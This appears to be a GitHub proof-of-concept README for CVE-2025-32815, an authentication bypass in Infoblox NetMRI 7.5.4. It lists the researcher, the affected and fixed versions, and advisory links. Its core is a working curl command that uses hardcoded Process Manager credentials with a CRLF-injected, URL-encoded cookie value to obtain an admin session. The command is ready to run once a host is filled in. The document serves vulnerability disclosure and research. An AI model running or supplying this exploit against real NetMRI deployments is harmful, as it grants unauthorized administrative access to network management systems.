 # CVE-2025-32815: Infoblox NetMRI Authentication Bypass via Hardcoded Credentials

## Information
**Description:** This exploits hardcoded Process Manager credentials to bypass authentication in Infoblox NetMRI.  
**Versions Affected:** 7.5.4.104695  
**Version Fixed:** 7.6.1  
**Researcher:** Dave Yesland (https://x.com/daveysec)  
**Disclosure Link:** https://rhinosecuritylabs.com/research/infoblox-multiple-cves/  
**NIST CVE Link:** https://nvd.nist.gov/vuln/detail/CVE-2025-32815  
**Vendor Advisory:** https://support.infoblox.com/s/article/Infoblox-NetMRI-is-vulnerable-to-CVE-2025-32815

## Proof-of-Concept Exploit
### Description
This exploit sends a newline-injected cookie value using known credentials to create an admin session. The cookie value returned can then be used for admin access.

### Usage/Exploitation
```
curl -c - -u '_pm:pm19726' -k 'https://<NETMRI_HOST>/netmri/common/SetRawCookie.tdf?name=test&value=%78%79%7a%0d%0a%55%73%65%72%4e%61%6d%65%3d%61%64%6d%69%6e'
```

### Screenshot
![poc_image](poc.png)
